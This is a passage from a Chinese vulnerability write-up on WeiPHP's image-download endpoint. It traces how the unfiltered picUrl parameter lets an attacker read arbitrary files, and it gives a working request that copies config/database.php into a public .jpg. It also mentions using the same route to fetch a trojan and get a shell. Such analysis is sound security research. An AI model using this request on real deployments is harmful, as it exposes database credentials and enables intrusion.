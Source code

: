 ```php
```

分析传入变量 **picUrl** 的 **wp_file_get_contents**方法

```php
$content = wp_file_get_contents($picUrl);
```

函数文件位置 **application\common.php**

![](http://wikioss.peiqi.tech/vuln/weiphp-4.png)

可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析

```php
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```

这里创建了有关当前时间的图片文件，并写入文件夹**/public/uploads/picture/** 下

我们先尝试控制变量 **$picUrl** 来写入数据库配置文件到图片中

```
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```

![](http://wikioss.peiqi.tech/vuln/weiphp-5.png)

查看目录**/public/uploads/picture/**，并用记事本打开写入的jpg文件

![](http://wikioss.peiqi.tech/vuln/weiphp-6.png)

得到数据库配置文件的信息，既然这个变量可控，我们也可以通过这个方法下载木马文件，再通过解析漏洞或者文件包含等其他漏洞来getshell

![](http://wikioss.peiqi.tech/vuln/weiphp-7.png)

在当前条件下并不知道文件名是什么，所以回到代码中继续寻找可以获取文件名的办法

![](http://wikioss.peiqi.tech/vuln/weiphp-8.png)

```php
if ($res) {
            $file = array(
                'name' => $picName,
                'type' => 'application/octet-stream',
                'tmp_name' => $picPath,
                'size' => $res,
                'error' => 0
            );

            $File = D('home/Picture');
            $cover_id = $File->addFile($file);
        }
```
